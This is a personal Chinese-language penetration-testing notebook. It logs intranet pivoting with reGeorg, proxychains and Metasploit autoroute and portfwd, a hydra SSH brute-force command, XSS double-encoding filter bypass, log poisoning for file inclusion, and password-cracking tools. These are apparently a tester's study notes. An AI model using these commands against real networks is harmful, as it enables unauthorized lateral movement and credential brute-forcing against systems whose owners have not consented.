 1、reGeorg
上传：http://xxxxx/tunnel.php
本地转发：python reGeorgSocksProxy.py -p 4444 -u 链接：http://202.1.2.66:65534/tunnel_x.php
本地代理：proxifier
2、proxychains4
本地转发：/etc/proxychains.conf
本地代理：proxychains4 xxx
如：proxychains ssh admin@7.7.7.20
proxychains hydra 7.7.7.20 ssh -s 22 -L /tmp/user.txt -P top100.txt -t 4
3、metasploit：见印象笔记
路由：
meterpreter > ifconfig
meterpreter > run autoroute -s 7.7.7.0/24
meterpreter > background
msf > use auxiliary/server/socks4a
端口转发：
meterpreter > portfwd add -L 172.16.0.20 -l 2323 -p 80 -r 7.7.7.20
--------其他----------
1、添加路由
内网网关：172.16.2.1
内网：202.1.0.100
sudo route add -net 202.1.0.0 -netmask 255.255.255.0 172.16.2.1
查看路由：netstat -nr
2、wireshark：sudo chown go0s /dev/bpf*

### 2018/5/4
1  php PDO好处，sql语句预处理查询只需要填参数会比较快【预处理后存在于内存，下次查询直接调用】，参数会先使用php的过滤参数过滤后本地php拼接还是不能防注入，需要加参数使其在mysql中进行拼接完成防注入。
2  jadx可以直接解析apk！可以删掉apk里的不必要的res资源文件，防止加载慢。
3  .htaccess是apache特有的，在nginx中是需要include来激活。nginx是启动引入，需要重启来启用；apache是动态引入，随时启用。nginx中的include是手动添加，指定目录；apache已经把.htaccess作为它的一种特色机制，并且支持站所有子目录都可以有.htaccess文件。
4  Wireshark导入key来破解SSL数据包，如果这个key是指定ip的RSA key，则需要先将与此ip相关数据包提取出来，再倒入key以实现破解。
5  添加路由：【网线和wifi对应的eth网卡默认路由有先后！】
内网网关：172.18.56.1
内网：202.201.33.23
sudo route add -net 202.201.33.0 -netmask 255.255.255.0 172.18.56.1
查看路由：netstat -nr

### 2018/5/3
1  xss碰到一些过滤的字符，使用双重编码绕过，即“HTML-encode-then-URL-encode”技巧，先html实体编码在url编码。

### 2018/5/2
1  安卓IDA动态调试so，普通和jdb。
2  kill -信号id PID。-9 SIFKILL。-19 -18挂起和恢复。安卓逆向可以先在hell中挂起进程，开启idaserver且端口转发后，ida直接attach手机应用，可以在其内存中寻找关键字。
3  awk -F: '{print $1}' 输出以：号为分隔符的分割后内容的第一列，awk语句在【单引号''】里的【中括号{}】内，必须是单引号！默认分隔符为空格。
4  win下破解zip,rar,word文本等工具，三大金刚azpr,arar,aoxppr。
5  find . -name '\*pcap\*'默认搜索就是遍历所有目录，尽量前后都加上星号匹配！同同理grep尽量加上-i忽略大小写。
6  ascii码加上&#;就是html实体编码。
7  文件包含漏洞包含日志文件，污染日志使用浏览器会将特殊字符编码，最好使用curl -v或者在burp抓包后修改来发送。
